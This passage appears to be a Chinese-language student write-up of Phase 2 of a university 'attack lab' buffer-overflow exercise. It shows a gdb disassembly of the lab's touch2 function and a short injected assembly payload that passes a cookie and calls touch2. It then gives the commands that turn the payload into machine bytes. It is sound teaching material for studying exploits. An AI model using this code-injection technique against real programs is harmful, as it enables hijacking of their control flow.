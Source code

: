 ![](attachments/Pasted%20image%2020250124224542.png)
来看 `touch2()`函数汇编代码
```
(gdb) disassemble touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:    jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:    mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:    mov    $0x1,%edi
   0x000000000040180e <+34>:    mov    $0x0,%eax
   0x0000000000401813 <+39>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:    mov    $0x2,%edi
   0x000000000040181d <+49>:    call   0x401c8d <validate>
   0x0000000000401822 <+54>:    jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:    mov    $0x403110,%esi
   0x0000000000401829 <+61>:    mov    $0x1,%edi
   0x000000000040182e <+66>:    mov    $0x0,%eax
   0x0000000000401833 <+71>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:    mov    $0x2,%edi
   0x000000000040183d <+81>:    call   0x401d4f <fail>
   0x0000000000401842 <+86>:    mov    $0x0,%edi
   0x0000000000401847 <+91>:    call   0x400e40 <exit@plt>
End of assembler dump.
```
构造注入的代码,首先需要覆写返回地址,使其跳转到我注入代码的地址处.
```
	mov    $0x59b997fa, %edi       # 传入参数:我的cookie
	mov    $0x4017ec,%r8
	call   *%r8                    # 跳转到touch2函数(不能用call 0x4017ec,会跳转到相对地址)
```
把这个代码保存为Phase2.s.
获取以上代码的机器指令
```shell
gcc -c Phase2.s
objdump -d Phase2.o > Phase2.d
```